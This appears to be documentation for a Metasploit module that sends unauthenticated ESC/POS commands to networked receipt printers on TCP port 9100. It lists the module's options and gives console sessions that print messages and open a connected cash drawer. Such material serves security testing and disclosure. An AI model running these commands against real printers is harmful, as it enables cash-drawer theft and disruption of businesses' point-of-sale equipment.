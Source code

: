 ## Vulnerable Application

This module targets networked ESC/POS compatible printers that listen for raw commands on TCP port 9100.
The vulnerability is a lack of authentication and access control on this port, allowing anyone with
network access to send unauthenticated ESC/POS commands. The module exploits this by sending crafted
command sequences to inject custom print jobs, trigger the cash drawer, or manipulate the paper feed,
effectively taking control of the printer's physical functions.


- **Printer Model:** Any Epson-compatible printer exposing the ESC/POS command set
on TCP port 9100.

- **Protocol:** ESC/POS over TCP.

- **CVE:** Submitted for Epson-compatible thermal printers; awaiting assignment.



## Verification Steps



1. **Load the module:**
    use auxiliary/scanner/printer/escpos_tcp_command_injector

2. **Set required options:**
    set RHOST <printer_ip>

3. **Choose an action:**
    You can either print a message, trigger the drawer, or do both.
    - To print a message, set `PRINT_MESSAGE` to `true` and a `MESSAGE` string.
    - To trigger the drawer, set `TRIGGER_DRAWER` to `true`.
    - To do both, set both flags to `true`.

4. **Execute the module:**
    run

---


## Options

### MESSAGE

This option specifies the text to be sent to the printer.

* **Description:** The string of text you want the printer to output. It is only required when `PRINT_MESSAGE` is set to `true`.
* **Default:** "PWNED"
* **Example:** `set MESSAGE "Printing this now"`

### PRINT_MESSAGE

This boolean option controls whether a message is printed to the printer.

* **Description:** When set to `true`, the module will send the `MESSAGE` string to the printer.
* **Default:** `false`
* **Example:** `set PRINT_MESSAGE true`

### TRIGGER_DRAWER

This boolean option controls whether the module sends a command to open the cash drawer.

* **Description:** When set to `true`, the module will send the appropriate ESC/POS command to trigger the cash drawer.
* **Default:** `false`
* **Example:** `set TRIGGER_DRAWER true`



## Scenarios

### Example 1: Printing a Simple Message

This example shows how to use the module to send a simple text message to a network-connected ESC/POS printer.

msf6 > use auxiliary/scanner/printer/escpos_tcp_command_injector
msf6 auxiliary(scanner/printer/escpos_tcp_command_injector) > set RHOSTS 192.168.1.200
msf6 auxiliary(scanner/printer/escpos_tcp_command_injector) > set PRINT_MESSAGE true
msf6 auxiliary(scanner/printer/escpos_tcp_command_injector) > run

[*] Sending print message to 192.168.1.200...
[+] Printed message to 192.168.1.200

### Example 2: Triggering the Cash Drawer

This scenario demonstrates the use of the `TRIGGER_DRAWER` option to send the specific
ESC/POS command to open a cash drawer connected to the printer.

msf6 > use auxiliary/scanner/printer/escpos_tcp_command_injector
msf6 auxiliary(scanner/printer/escpos_tcp_command_injector) > set RHOSTS 192.168.1.200
msf6 auxiliary(scanner/printer/escpos_tcp_command_injector) > set TRIGGER_DRAWER true
msf6 auxiliary(scanner/printer/escpos_tcp_command_injector) > run

[*] Triggering cash drawer 2 times on 192.168.1.200...
[+] Triggered cash drawer on 192.168.1.200

### Example 3: Doing Both

This example shows how to use both options to print a message and trigger the drawer in a single run.

msf6 > use auxiliary/scanner/printer/escpos_tcp_command_injector
msf6 auxiliary(scanner/printer/escpos_tcp_command_injector) > set RHOSTS 192.168.1.200
msf6 auxiliary(scanner/printer/escpos_tcp_command_injector) > set PRINT_MESSAGE true
msf6 auxiliary(scanner/printer/escpos_tcp_command_injector) > set TRIGGER_DRAWER true
msf6 auxiliary(scanner/printer/escpos_tcp_command_injector) > set MESSAGE "Both commands sent!"
msf6 auxiliary(scanner/printer/escpos_tcp_command_injector) > run

[*] Sending print message to 192.168.1.200...
[+] Printed message to 192.168.1.200
[*] Triggering cash drawer 2 times on 192.168.1.200...
[+] Triggered cash drawer on 192.168.1.200


This module has been tested against a physical Epson-compatible receipt printer and
verified to print custom messages and trigger the cash drawer.
For additional device compatibility, refer to the ESC/POS protocol documentation.
